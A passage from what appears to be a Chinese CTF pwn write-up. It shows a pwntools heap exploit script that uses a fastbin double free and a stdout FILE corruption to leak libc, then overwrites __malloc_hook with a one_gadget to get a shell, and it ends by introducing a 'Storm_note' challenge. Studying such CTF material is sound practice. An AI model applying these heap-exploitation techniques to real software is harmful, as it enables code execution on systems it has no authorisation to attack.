 delete( 1)

delete( 2)

gdb.attach(p)

create( 0x60, 'x00') #4

create( 0x60, 'A') #5

create( 0x60, 'x00') #6

edit( 3, 'xddx45')

create( 0x60, 'A')

payload = 'A'* 0x33+ p64( 0xfbad1800) + p64( 0x7f734fa446a3)* 3

payload += 'x50'

create( 0x65,payload)

p.sendline()

libc_base = u64(p.recv( 6).ljust( 8, 'x00'))

libc_base = libc_base - 3954339

printhex(libc_base)

malloc_addr = libc_base + libc.symbols[ '__malloc_hook']

one_gadget_addr = libc_base + 0xf02a4

log.success( 'malloc_addr :'+ hex(malloc_addr))

log.success( 'one_addr :'+ hex(one_gadget_addr))

delete( 2)

delete( 1)

delete( 2)

create( 0x60,p64(malloc_addr- 35))

create( 0x60, 'A')

create( 0x60,p64(malloc_addr- 35))

create( 0x60, 'x00'* 19+p64(one_gadget_addr))

#gdb.attach(p)

p.sendlineafter( '>', '1')

p.sendlineafter( '>',str( 0x10))

p.interactive()

3

PWN之三——Storm_note

这道题其实是一道改编0ctf的一道heapstormII的题目，其实基本一样，就是阉割了一点，难度降低了一点。
